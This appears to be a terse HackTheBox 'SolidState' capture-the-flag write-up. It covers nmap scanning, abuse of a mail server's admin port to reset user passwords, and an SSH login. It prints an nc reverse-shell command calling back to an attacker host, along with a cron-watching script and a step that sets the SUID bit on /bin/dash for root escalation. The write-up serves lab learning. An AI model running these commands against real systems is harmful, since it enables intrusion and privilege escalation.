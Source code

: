 # HackTheBox SolidState Writeup

![date](https://img.shields.io/badge/date-03.1.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-3144-brightgreen.svg)

## Detailed Solution

### Nmap Scan
      
Initial Scan      

![Alt Text](nmap_initial.png)
      > nmap -sC -sV -oA nmap/initial 10.10.10.51

      
Full Port Scan to Check Background Ports

![Alt Text](nmap_allports.png)
      > nmap -p- -T5 -oA nmap/allports 10.10.10.51

Targeted Port Scan
      > nmap -p 110,119,22,25,4555,80 -sC -sV -oA nmap/targeted --script vuln 10.10.10.51
      
### Analyse Vulnerable Ports      
      Grep open ports using gnmap file

      > grep -oP '\d{1,5}/open' nmap/allports.gnmap | sort -u > ports.list
      
      > nc 10.10.10.51 4555
Then You Login to a Smtp Server, and now you can change user's password to get acess to his(her) email system on Thunder Bird. Such as mindy@10.10.10.51, etc.
      ssh mindy@10.10.10.51

### nc-style Reverse Shell      
      nc -e /bin/bash 10.10.10.14.7 1234 &
      
### Write PSMONITOR.sh to Check if Custom CMD is Executed By Cron.
      IFS=$'\n'
      op=$(ps -eo command)
      while true; do
        np=$(ps -eo command)
        diff <(echo "$op") <(echo "$np")
        sleep .2
        op=$np
      done        
      
#### Set UID Bit
      chmod 4755 /bin/dash
      
Through LinEnum Scan      
      > bash LinEnum.sh -t      
      
Ippsec Version      

      :%s/\/ope//g
      :%s/n\n/,/g
      
Fast Version:      

      :%s/\/open\n/,/g

